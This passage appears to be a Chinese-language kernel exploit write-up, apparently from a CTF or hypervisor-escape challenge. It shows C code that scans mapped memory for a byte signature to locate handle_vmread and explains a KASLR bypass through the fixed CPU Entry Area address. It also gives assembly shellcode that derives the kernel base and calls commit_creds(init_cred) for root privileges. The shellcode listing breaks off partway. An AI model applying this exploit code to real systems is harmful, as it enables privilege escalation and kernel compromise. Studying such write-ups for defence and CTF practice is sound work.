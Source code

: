 这里选择和函数保持在一个页里的特殊字节码就行了

通过十六进制编辑器去找，这里我选择的是0x00001C70BF440F4C，因为这里除了60开始的位置就只有这里了，而我们查看的偏移是0x503

```php
.text:000000000001F503 4C 0F 44 BF 70 1C 00 00                                         cmovz   r15, [rdi+1C70h]
```

```c
 for (i = 0; i < (1<<18); i += 0x1000) {
        unsigned long long val = *((unsigned long long *)(0xffff880000000503 + i));

        // check the value and check if relocations were applied
        if (val == 0x1C70BF440F4C  ) {
            handle_vmread_page = 0xffff880000000000 + i;
            break;
        }
    }
    handle_vmread = handle_vmread_page + 0x4d0;
```

shellcode
---------

- CPU Entry Area Mapping:  
    这是内核内存中的一个特殊区域，用于存储一些重要的CPU相关数据结构和入口点。这个区域的地址通常是固定的，不受KASLR（内核地址空间布局随机化）的影响。  
    在这个区域的起始点有几个地址，它们与内核text段（代码段）保持固定的偏移关系。这意味着，如果你知道这些地址的值，你就可以计算出内核代码的实际加载地址。
    
    
    - 由于CPU Entry Area Mapping的地址是固定的，攻击者可以直接读取0xfffffe0000000004这个地址的内容。然后，通过一些简单的计算（可能是加上或减去一个固定的偏移量），得到基地址

```bash

/*
    push rax
    push rbx
    push rcx
    push rdx
    push r9
    push r10
    push r11
    push r12
    push r13
    push r14
    push rdi
    push rsi

    // get kaslr base
    mov rax, 0xfffffe0000000004
    mov rax, [rax]
    sub rax, 0x1008e00

    // r12 is kaslr_base
    mov r12, rax

    // commit_creds
    mov r13, r12
    add r13, 0xbdad0

    // init_cred
    mov r14, r12
    add r14, 0x1a52ca0

    mov rdi, r14
    call r13

```